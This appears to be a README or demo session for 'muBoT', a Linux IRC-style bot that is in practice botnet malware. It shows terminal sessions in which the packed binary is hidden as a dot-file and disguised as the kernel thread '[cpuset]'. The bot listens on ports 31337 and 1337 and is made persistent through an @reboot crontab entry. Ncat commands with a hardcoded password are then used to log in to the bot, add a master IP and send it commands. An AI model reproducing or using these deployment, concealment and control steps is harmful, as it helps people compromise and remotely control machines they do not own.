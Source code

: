 with upx it has 2,6 MB 

Debian31337:~/muBoT/build# file muBoT 
muBoT: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, no section header




Debian31337:~/muBoT/build# ldd muBoT
	not a dynamic executable


Debian31337:~/muBoT/build# readelf -d muBoT

There is no dynamic section in this file.


Debian31337:~/muBoT/build# strace -e trace=open /root/muBoT/build/muBoT 
open("/proc/self/exe", O_RDONLY)        = 3
+++ exited with 0 +++

Debian31337:~/muBoT/build# mv muBoT /root/.muBoT
Debian31337:~/muBoT/build# cd
Debian31337:~# ./.muBoT 10.0.0.116 <----- this is the ip of the maschine where the bot is running
Debian31337:~# ps x
 2880 pts/1    S      0:00 [cpuset]        

Debian31337:~# netstat -l
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 *:ssh                   *:*                     LISTEN     
tcp        0      0 *:31337                 *:*                     LISTEN     
tcp        0      0 *:1337                  *:*                     LISTEN     
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN     


Debian31337:~# netstat
Active Internet connections (w/o servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
 

Debian31337:~# crontab -l
@reboot /root/.muBoT


the bot does not need to start from root!!!!!!!!!!!!!!!!!!!!!
----------------------------------------------------------------
let us auth to the bot with the ncat


to get the output of the bot (only works if !addadm <your ip> enabled 
the bot works standart silent
root@lamer:~# ncat -k -l -p 31337 &

root@lamer:~# echo '!logmein hur3hur3' | ncat 10.0.0.103 31337

for sending glob command to the bots

root@lamer:~# echo '!logmein hur3hur3' | ncat 10.0.0.103 31337
root@lamer:~# echo '!addadm 10.0.0.254' | ncat 10.0.0.103 31337
My Master > 10.0.0.254 
```Shell
root@lamer:~#  echo '!help' | ncat 10.0.0.103 31337
               ____          _____
              |  _ \        (_   _)
 _   _  _   _ | |_) )  ___    | |
| | | || | | ||  _ (  / _ \   | |
| |_| || |_| || |_) )( (_) )  | |
| ._,_| \___/ |____/  \___/   |_|
| | By BoSSaLiNiE Privat Edition
|_|   v0.23ya.21mu-xmas-torum
<< !help 	> show this
<< !logmein 	> !logmein <PASS>
```